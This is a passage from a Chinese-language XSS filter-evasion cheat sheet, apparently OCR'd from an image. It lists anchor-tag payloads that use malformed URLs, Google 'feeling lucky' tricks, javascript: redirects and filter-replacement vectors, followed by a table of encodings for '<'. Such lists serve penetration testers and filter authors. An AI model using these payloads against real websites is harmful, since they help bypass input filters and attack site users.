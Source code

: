 > <A HREF="//google">XSS</A>

### **2.84.9. Google的"feeling lucky"功能2**

这使用了一个仅在FireFox上有效的小技巧，因为它实现了"feelinglucky"功能。不像下面一个例子，这个在Opera上无效因为Opera会认为只是一个老式的HTTP基础认证钓鱼攻击，但它并不是。它只是一个畸形的URL。如果你点击了对话框的确定，它就可以生效。但是在Opera上会是一个错误对话框，所以认为其不被Opera所支持，同样在Firefox2.0后不再有效。

> <A HREF="[http://ha.ckers.org@google](http://ha.ckers.org@google/)">XSS</A>

### **2.84.10.      Google的"feeling lucky"功能3**

这是一个畸形的URL只在FireFox和Opera下有效，因为它们实现了"feeling lucky"功能。像上面的例子一样，它要求你的攻击页面在Google上特定关键词排名第一（在这个示例里关键词是"google"）

> <A HREF="[http://google:ha.ckers.org](http://google:ha.ckers.org/)">XSS</A>

### **2.84.11.      移除别名**

当结合上面的URL，移除"www."会节约4个字节，总共为正确设置的服务器节省9字节:

> <A HREF="<http://google.com/>">XSS</A>

### **2.84.12.      绝对DNS名称后额外的点**

> <A HREF="<http://www.google.com./>">XSS</A>

### 

### 

### **2.84.13.      JavaScriptlink location**

> <A HREF="javascript:document.location='<http://www.google.com/>'">XSS</A>

### 

### 

### **2.84.14.      内容替换作为攻击向量**

假设"<http://www.google.com/>"会自动替换为空。我实际使用过类似的攻击向量即通过使用转换过滤器本身（示例如下）来帮助构建攻击向量以对抗现实世界的XSS过滤器:

> <A HREF="<http://www.google.com/ogle.com/>">XSS</A>

### 2.85.    字符转义表

下面是HTML和JavaScript中字符“<”的所有可能组合。其中大部分不会被渲染出来，但其中许多可以在某些情况下呈现出来。：

> <
>
> %3C
>
> &lt
>
> &lt;
>
> &LT
>
> &LT;
>
> &#60
>
> &#060
>
> &#0060
>
> &#00060
>
> &#000060